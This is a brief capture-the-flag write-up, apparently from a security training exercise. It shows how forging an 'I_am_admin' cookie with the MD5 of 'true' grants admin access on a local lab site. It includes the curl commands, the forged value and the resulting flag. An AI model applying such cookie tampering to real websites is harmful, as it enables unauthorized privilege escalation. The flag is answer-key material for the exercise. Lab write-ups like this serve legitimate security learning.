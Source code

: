 There is one cookie that is created by firstly browsing the website.

curl -s --head http://localhost:9090/ | grep Cookie

It's name I_am_admin admin and contain something that look like a md5 hash.

After decrypting the hash, i found `false` string.

So i tried to replace the cookie value by the md5 hashing of the string `true` that is `b326b5062b2f0e69046810717534cb09`

curl -s -H "Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09" http://localhost:9090/ | grep Flag

After a page refresh, the site display a js alter with this message :

Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

Soo we got the flag !

